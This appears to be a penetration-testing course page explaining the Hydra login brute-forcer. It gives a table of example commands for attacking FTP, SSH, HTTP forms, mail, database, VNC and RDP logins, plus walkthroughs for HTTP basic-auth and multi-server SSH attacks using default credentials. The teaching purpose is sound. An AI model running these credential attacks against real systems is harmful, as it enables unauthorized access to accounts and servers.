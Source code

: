 Hydra services essentially define the specific protocols or services that Hydra can target. They enable Hydra to interact with different authentication mechanisms used by various systems, applications, and network services. Each module is designed to understand a particular protocol's communication patterns and authentication requirements, allowing Hydra to send appropriate login requests and interpret the responses. Below is a table of commonly used services:

|Hydra Service|Service/Protocol|Description|Example Command|
|---|---|---|---|
|ftp|File Transfer Protocol (FTP)|Used to brute-force login credentials for FTP services, commonly used to transfer files over a network.|`hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`|
|ssh|Secure Shell (SSH)|Targets SSH services to brute-force credentials, commonly used for secure remote login to systems.|`hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`|
|http-get/post|HTTP Web Services|Used to brute-force login credentials for HTTP web login forms using either GET or POST requests.|`hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`|
|smtp|Simple Mail Transfer Protocol|Attacks email servers by brute-forcing login credentials for SMTP, commonly used to send emails.|`hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`|
|pop3|Post Office Protocol (POP3)|Targets email retrieval services to brute-force credentials for POP3 login.|`hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`|
|imap|Internet Message Access Protocol|Used to brute-force credentials for IMAP services, which allow users to access their email remotely.|`hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`|
|mysql|MySQL Database|Attempts to brute-force login credentials for MySQL databases.|`hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100`|
|mssql|Microsoft SQL Server|Targets Microsoft SQL servers to brute-force database login credentials.|`hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100`|
|vnc|Virtual Network Computing (VNC)|Brute-forces VNC services, used for remote desktop access.|`hydra -P /path/to/password_list.txt vnc://192.168.1.100`|
|rdp|Remote Desktop Protocol (RDP)|Targets Microsoft RDP services for remote login brute-forcing.|`hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`|

### Brute-Forcing HTTP Authentication

Imagine you're tasked with testing the security of a website using basic HTTP authentication at `www.example.com`. You have a list of potential usernames stored in `usernames.txt` and corresponding passwords in `passwords.txt`. To launch a brute-force attack against this HTTP service, use the following Hydra command:

```shell-session
KaoruRyusaki@htb[/htb]$ hydra -L usernames.txt -P passwords.txt www.example.com http-get
```

This command instructs Hydra to:

- Use the list of usernames from the `usernames.txt` file.
- Use the list of passwords from the `passwords.txt` file.
- Target the website `www.example.com`.
- Employ the `http-get` module to test the HTTP authentication.

Hydra will systematically try each username-password combination against the target website to discover a valid login.

### Targeting Multiple SSH Servers

Consider a situation where you have identified several servers that may be vulnerable to SSH brute-force attacks. You compile their IP addresses into a file named `targets.txt` and know that these servers might use the default username "root" and password "toor." To efficiently test all these servers simultaneously, use the following Hydra command:

```shell-session
KaoruRyusaki@htb[/htb]$ hydra -l root -p toor -M targets.txt ssh
```
